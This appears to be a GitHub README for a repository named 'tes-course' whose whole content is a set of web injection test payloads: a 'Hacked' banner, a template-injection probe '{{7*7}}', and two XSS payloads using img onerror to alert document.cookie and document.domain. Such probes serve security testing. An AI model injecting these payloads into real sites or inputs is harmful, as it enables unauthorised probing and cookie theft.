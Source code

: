 # tes-course
Hacked&lt;br>&lt;br>&lt;center>&lt;font color="red">{{7*7}}&lt;br>&lt;br>&lt;img src=x onerror=alert(document.cookie)>&lt;br>&lt;br>&lt;img src=x onerror=alert(document.domain)>
